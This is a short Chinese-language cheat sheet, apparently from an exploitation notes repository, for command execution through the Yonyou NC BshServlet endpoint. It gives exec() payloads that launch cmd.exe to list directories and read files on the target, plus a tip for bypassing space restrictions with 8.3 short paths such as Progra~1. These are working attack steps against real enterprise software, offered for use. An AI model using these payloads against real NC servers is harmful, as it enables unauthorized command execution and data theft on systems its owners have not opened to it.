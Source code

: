 ### 用友NC_BshServlet
#### 无法执行dir，type等命令解决办法
`exec("C:\\windows\\system32\\cmd.exe /c dir C:");`

`exec("C:\\windows\\system32\\cmd.exe /c type 1.txt");`

#### 无法使用空格解决办法
`c:Program Files 缩写为 c:Progra~1`

